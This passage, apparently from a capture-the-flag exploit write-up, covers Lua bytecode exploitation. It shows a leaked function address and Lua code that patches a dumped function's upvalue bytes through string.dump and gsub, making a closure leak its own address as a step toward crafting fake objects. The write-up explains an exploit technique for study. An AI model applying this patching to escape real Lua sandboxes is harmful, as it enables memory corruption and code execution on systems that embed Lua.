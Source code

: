 ```
leak: 0x10a0e8
```

Good, our leak now finally matches the function address!

## Trust is the weakest link

Next piece of the puzzle is to find a way to craft fake objects.

For this, we can pretty much use the same technique used in the blogpost:

```lua
# Code 

confuse = load(string.dump(function()
    local foo
    local bar
    local target
    return (function() -- target will point to this closure
      (function()
        print(foo)
        print(bar)
        print("Leaking outer closure: ",target)
      end)()
    end)
end):gsub("(\x01\x00\x00\x01\x01\x00\x01)\x02", "%1\x03", 1))

outer_closure = confuse()
print("Returned outer closure:", outer_closure)

print("Calling it...")
outer_closure()


# Output

Returned outer closure:	LClosure: 0x109a98
Calling it...
nil
nil
Leaking outer closure: 	LClosure: 0x109a98
```

Two notable mentions here:

- Again, in order to make things work with this interpreter I had to change
  the bytes in the patching. In this case, as the patching happens not in
  the opcodes but rather in the upvalues of the functions, I resorted
  to manually examine the bytecode dump and find a pattern that seemed
  the right one to patch -- in this case, what we are patching is the
  "upvals table" of the outer closure.

- We are returning the outer closure to make sure that the leak is right.
  In fact, in the code, I'm printing the address of the outer closure
  (which is returned by the function), and printing the value of the
  patched `target` upvalue, and expecting them to match.
  